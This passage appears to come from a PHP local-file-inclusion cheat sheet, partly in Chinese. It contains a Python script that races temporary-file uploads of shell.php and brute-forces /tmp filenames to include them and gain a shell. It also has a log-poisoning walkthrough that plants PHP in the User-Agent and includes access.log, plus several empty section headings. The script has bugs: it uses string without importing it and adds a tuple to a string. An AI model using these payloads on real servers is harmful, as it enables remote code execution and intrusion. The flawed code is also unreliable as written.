 We have 62**6 possible values -> 56800235584 filenames for temporary uploaded files
Birthday paradox can be applied and it results with about 280000 requests to find valid file with more than 50% chance.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

It is possible to send 20 files in one request that will be accepted by the server.

## 7) Session文件包含

## 8) phpinfo()脚本包含
## 9) 临时文件包含 - Windows

## 10) Logs日志包含

```
http://localhost:88/index.php?a=/home/wwwlogs/access.log
```

访问

```
http://192.168.43.101/?=&lt;?php phpinfo();?&gt;
```

不过发现get请求的uri是经过url编码的，这样是不能被识别为php代码解析执行的。我们修改ua为

```
&lt;?php phpinfo(); ?&gt;
```
再次访问
这时候ua里的php代码已记录到日志中去了，接下来包含日志就能执行php代码了。
